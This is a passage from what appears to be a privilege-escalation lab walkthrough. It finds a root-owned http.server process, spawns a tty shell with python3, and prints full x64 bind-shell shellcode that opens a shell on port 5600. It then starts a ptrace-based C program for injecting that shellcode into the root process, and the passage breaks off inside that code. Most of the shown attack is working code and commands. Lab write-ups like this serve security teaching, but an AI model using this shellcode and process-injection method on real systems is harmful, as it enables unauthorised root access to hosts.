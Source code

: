 ```
ps -ef
```

![](./images/03/06.png)

![](./images/03/07.png)

On inspecting the process we come across a ``http.server`` running with pid 19419. Looking at the process's start time it looks like this one started with root privileges on the host instance.

But the current shell gives us limited functionalities, let's check if we have python3 available and spawn a better tty shell.

```
python3 -V
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](./images/03/08.png)

On checking the architecture of the machine with ``uname -m`` we are certain the host machine is running 64-bit linux.

We can use a publicly available TCP BIND shell shellcode, to trigger a bind shell. A simple google search for "Linux x64 Bind shell shellcode exploit db" takes us to this exploit DB link: https://www.exploit-db.com/exploits/41128.

**Shellcode:**
```bash
"\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";
```

The above shellcode will trigger a Bind TCP Shell on port 5600.

The C program provided at the GitHub Link given below can be used to inject shellcode into a running process.

GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

The shellcode used in the above-referenced C program will trigger a shell on the running process. Replace the shellcode with the shellcode provided at the exploit db link.

* Now use vim to save the below-modified program as inject.c

```bash
vim inject.c
```

![](./images/03/09.png)


**Modified Program**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

```